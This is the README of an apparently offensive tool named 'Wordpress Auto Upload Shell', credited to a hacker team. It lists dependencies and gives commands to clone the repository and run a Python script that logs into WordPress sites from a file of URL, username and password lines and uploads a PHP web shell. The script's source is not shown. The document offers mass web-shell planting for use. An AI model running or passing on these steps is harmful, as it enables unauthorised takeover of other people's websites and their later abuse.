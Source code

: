 # Wordpress Auto Upload Shell
![IMG_20201012_175906](https://user-images.githubusercontent.com/65480013/96328235-d3261c00-106a-11eb-8052-89198216154d.jpg)
# Author
```
Nickname : D4RKSH4D0WS
Team : AnonRoz-Team
```

# Requirements
```
requests bs4
```

# Installation
```
$ pkg install python2
$ pip2 install requests bs4
$ git clone https://github.com/AnonRoz-Team/wp_auto_upshell
$ cd wp_auto_upshell
$ python2 wp.py list_web.txt sh3l.php
Isi list_web.txt seperti ini 
https://web.com/wp-login.php|admin|password
```
